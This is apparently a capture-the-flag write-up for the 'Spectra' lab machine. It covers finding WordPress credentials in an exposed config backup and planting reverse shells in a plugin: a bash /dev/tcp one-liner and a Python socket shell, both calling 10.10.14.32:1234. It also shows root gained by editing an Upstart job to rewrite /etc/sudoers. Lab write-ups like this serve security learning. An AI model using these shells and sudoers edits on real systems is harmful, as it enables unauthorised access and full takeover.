# Enumeration
 </br> 
**Initial Shell:** </br>
First, I navigated to the website and saw a simple page with two links: </br> 
 </br> </br>
Both links redirected me to spectra.htb, so I added this to the ```etc/hosts``` file. </br>
The second link returned: “error establishing a database connection”, but looking at the link without the ```index.php``` I got a directory listing. </br>
Most of the files there are default and have nothing interesting inside, except of one file: </br>
 </br> </br>
```wp-config.php``` is the base configuration file for WordPress, where the database username and password will be stored, </br>
but clicking on it will just run the PHP on the background, however if we click at the ```wp-config.php.save``` file <br>
and viewing the source, we get this: </br>
 </br> </br>
it looks like the Database connection information, but when trying to connect to the MySQL service, we get an error. </br>
I saved the credentials, and moved to the first link from earlier: </br>
 </br> </br>
Unfourtanetly, I couldn't find any useful information, except from the 'Administrator' username, that came in use later. </br>
 </br> </br>
Clicking on the Login link, I got redirected to WordPress login page: </br>
 </br> </br>
I tried using the database information I found before, but it didn't work. </br>
I then tried using the ```Administrator``` as the username, and ```devteam01``` as the password, and it worked: </br>
 </br> </br>
To upload a webshell, I clicked on the Plugins tab, and then the Plugin Editor: </br>
 </br> </br>
The plugin is located at: http://spectra.htb/main/wp-content/plugins/akismet/akismet.php </br>
I edited it, and uploaded a one liner reverse shell: </br>
```bash
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.32/1234 0>&1'");
```

It didn't work, so I used a python reverse shell: </br>
```bash
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

and it worked: </br>
 </br>

# Privilege Escalation: 
After I got the initial shell, I was logged in as ```nginx``` user. </br>
I did some enumeration with LinPEAS script, and found this: </br>
 </br>
 </br>
It looked like some user credentials, so I went to /home directory </br>
 </br>
And I tried to log in into each user with this credentials, using SSH. </br>
 </br>
It worked. </br>
The first thing I tried to do was using ```sudo -l``` , and it looked like this user could run this command as
sudo: </br>
 </br>
 </br>
**init** - Upstart process management daemon
On startup, the Upstart init daemon reads its job configuration from the /etc/init directory, and watches for
future changes using inotify.
The primary use of jobs is to define services or tasks to be run by the init daemon. Each job may have one
or more different processes run as part of its lifecycle, with the most common known as the main process.
The main process is defined using either the exec or script stanzas, only one of which is permitted. These
specify the executable or shell script that will be run when the job is considered to be running. Once this
process terminates, the job stop. </br>
**initctl** - allows a system administrator to communicate and interact with the Upstart init daemon.
After reading about this, I figured that all of initctl jobs were at /etc/init, so I checked if I could modify
any. </br>
 </br>
Since I was at the 'developers' group, I could edit/write to all of those jobs, I verified it by listing all
of the jobs with ```sudo initctl list```, and I found that it matched the list. </br>
To escalate my privileges I edited one of the jobs that I had access to (I chose test.conf file), and put
this inside: </br>
```echo 'chmod 777 /etc/sudoers && echo "katie ALL=NOPASSWD: ALL" >> /etc/sudoers
&& chmod 440 /etc/sudoers' > /tmp/test.sh && bash /tmp/test.sh``` </br>
 </br>
I ran it with: ```sudo initctl start test``` And it worked. </br> </br>
**Vulnerability Exploited:** Initctl binary runs as sudo </br>
**Vulnerability Explanation:** If the binary is allowed to run as superuser by sudo, it does not drop the
elevated privileges and may be used to access the file system, escalate or maintain privileged access. </br>
**Vulnerability Fix:** Do not let a low privileged user to run binaries as sudo. </br> </br>
**Proof Screenshot Here:** </br>

